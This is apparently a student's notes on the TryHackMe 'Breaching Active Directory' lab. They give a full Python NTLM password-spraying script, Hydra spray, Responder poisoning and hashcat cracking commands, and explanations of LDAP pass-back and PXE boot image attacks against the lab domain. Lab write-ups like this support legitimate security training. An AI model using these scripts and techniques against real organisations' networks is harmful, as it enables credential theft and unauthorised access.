

# Breaching Active Directory


# Taks 1:

```powershell 
systemd-resolve --interface breachad --set-dns $THMDCIP --set-domain za.tryhackme.com
```

# Taks 3 (NTLM and NetNTLM)


```python
#!/usr/bin/python3

import requests
from requests_ntlm import HttpNtlmAuth
import sys, getopt

class NTLMSprayer:
    def __init__(self, fqdn):
        self.HTTP_AUTH_FAILED_CODE = 401
        self.HTTP_AUTH_SUCCEED_CODE = 200
        self.verbose = True
        self.fqdn = fqdn

    def load_users(self, userfile):
        self.users = []
        lines = open(userfile, 'r').readlines()
        for line in lines:
            self.users.append(line.replace("\r", "").replace("\n", ""))

    def password_spray(self, password, url):
        print ("[*] Starting passwords spray attack using the following password: " + password)
        count = 0
        for user in self.users:
            response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
            if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
                print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
                count += 1
                continue
            if (self.verbose):
                if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                    print ("[-] Failed login with Username: " + user)
        print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")

def main(argv):
    userfile = ''
    fqdn = ''
    password = ''
    attackurl = ''

    try:
        opts, args = getopt.getopt(argv, "hu:f:p:a:", ["userfile=", "fqdn=", "password=", "attackurl="])
    except getopt.GetoptError:
        print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
        sys.exit(2)

    for opt, arg in opts:
        if opt == '-h':
            print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
            sys.exit()
        elif opt in ("-u", "--userfile"):
            userfile = str(arg)
        elif opt in ("-f", "--fqdn"):
            fqdn = str(arg)
        elif opt in ("-p", "--password"):
            password = str(arg)
        elif opt in ("-a", "--attackurl"):
            attackurl = str(arg)

    if (len(userfile) > 0 and len(fqdn) > 0 and len(password) > 0 and len(attackurl) > 0):
        #Start attack
        sprayer = NTLMSprayer(fqdn)
        sprayer.load_users(userfile)
        sprayer.password_spray(password, attackurl)
        sys.exit()
    else:
        print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
        sys.exit(2)


if __name__ == "__main__":
    main(sys.argv[1:])
```


```bash
# <userfile> - Textfile containing our usernames - "usernames.txt"
# <fqdn> - Fully qualified domain name associated with the organisation that we are attacking - "za.tryhackme.com"
# <password> - The password we want to use for our spraying attack - "Changeme123"
# <attackurl> - The URL of the application that supports Windows Authentication - "http://ntlmauth.za.tryhackme.com"

python ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>
```

To do this with Hydra:
```bash 
<<COMMENT_BLOCK
The following parameters are optional:
(a|A)=auth-type specify authentication mechanism to use: BASIC, NTLM or MD5
(h|H)=My-Hdr: foo to send a user defined HTTP header with each request
(F|S)=check for text in the HTTP reply. S= means if this text is found, a valid account has been found, F= means if this string is present the combination is invalid. Note: this must be the last option supplied.
COMMENT_BLOCK


hydra -L <username_list> -p <pwd_to_spray> <host> http-get '/:A=NTLM:F=401'
```
## Task 4 (LDAP):

LDAP authentication is a popular mechanism with third-party (non-Microsoft) applications that integrate with AD. These include applications and systems such as:

- Gitlab
- Jenkins
- Custom-developed web applications
- Printers
- VPNs


### LDAP Pass-back Attacks

However, one other very interesting attack can be performed against LDAP authentication mechanisms, called an LDAP Pass-back attack. This is a common attack against network devices, such as printers, when you have gained initial access to the internal network, such as plugging in a rogue device in a boardroom.

LDAP Pass-back attacks can be performed when we gain access to a device's configuration where the LDAP parameters are specified. This can be, for example, the web interface of a network printer. Usually, the credentials for these interfaces are kept to the default ones, such as `admin:admin` or `admin:password`. Here, we won't be able to directly extract the LDAP credentials since the password is usually hidden. However, we can alter the LDAP configuration, such as the IP or hostname of the LDAP server. In an LDAP Pass-back attack, we can modify this IP to our IP and then test the LDAP configuration, which will force the device to attempt LDAP authentication to our rogue device. We can intercept this authentication attempt to recover the LDAP credentials.


## Task 5 (Authentication Relays):

- Since the NTLM Challenges can be intercepted, we can use offline cracking techniques to recover the password associated with the NTLM Challenge. However, this cracking process is significantly slower than cracking NTLM hashes directly.
- We can use our rogue device to stage a man in the middle attack, relaying the SMB authentication between the client and server, which will provide us with an active authenticated session and access to the target server.

Responder allows us to perform Man-in-the-Middle attacks by poisoning the responses during NetNTLM authentication, tricking the client into talking to you instead of the actual server they wanted to connect to. On a real LAN, Responder will attempt to poison any  Link-Local Multicast Name Resolution (LLMNR),  NetBIOS Name Service (NBT-NS), and Web Proxy Auto-Discovery (WPAD) requests that are detected. On large Windows networks, these protocols allow hosts to perform their own local DNS resolution for all hosts on the same local network. Rather than overburdening network resources such as the DNS servers, hosts can first attempt to determine if the host they are looking for is on the same local network by sending out LLMNR requests and seeing if any hosts respond. The NBT-NS is the precursor protocol to LLMNR, and WPAD requests are made to try and find a proxy for future HTTP(s) connections.

```bash
sudo responder -I breachad
hashcat -m 5600 <hash file> <password file> --force
```

## Task 6:

### PXE Boot

Large organisations use PXE boot to allow new devices that are connected to the network to load and install the OS directly over a network connection. MDT can be used to create, manage, and host PXE boot images. PXE boot is usually integrated with DHCP, which means that if DHCP assigns an IP lease, the host is allowed to request the PXE boot image and start the network OS installation process. The communication flow is shown in the diagram below:



Once the process is performed, the client will use a TFTP connection to download the PXE boot image. We can exploit the PXE boot image for two different purposes:

- Inject a privilege escalation vector, such as a Local Administrator account, to gain Administrative access to the OS once the PXE boot has been completed.
- Perform password scraping attacks to recover AD credentials used during the install.:w


